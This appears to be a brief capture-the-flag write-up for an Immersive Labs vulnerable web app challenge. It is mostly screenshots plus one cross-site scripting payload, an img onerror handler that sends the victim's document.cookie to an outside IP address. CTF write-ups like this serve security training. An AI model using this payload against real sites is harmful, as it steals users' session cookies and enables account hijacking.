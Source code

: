 ```yaml
---
date: 2025-02-20
categories: [CTF, ImmersiveLabs]
title: "IML - Mini CTF: Vulnerable Web App – Ep.3"
tags: ['web exploit']

description: "Mini CTF Vulnerable Web App – - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Mini CTF: Vulnerable Web App – Ep.3


![image1](../resources/5b798f6da8f641a3b617ece54837c76f.png)

- Get an input field that broadcasts:


![image2](../resources/da75ca20153e48c98a269378acaa017d.png)

- Use payload:

`<img src=x onerror="location.href='http://10.102.120.158:8001/?c='+ document.cookie">`


![image3](../resources/14d26214249741618a0004b3d39c7f64.png)
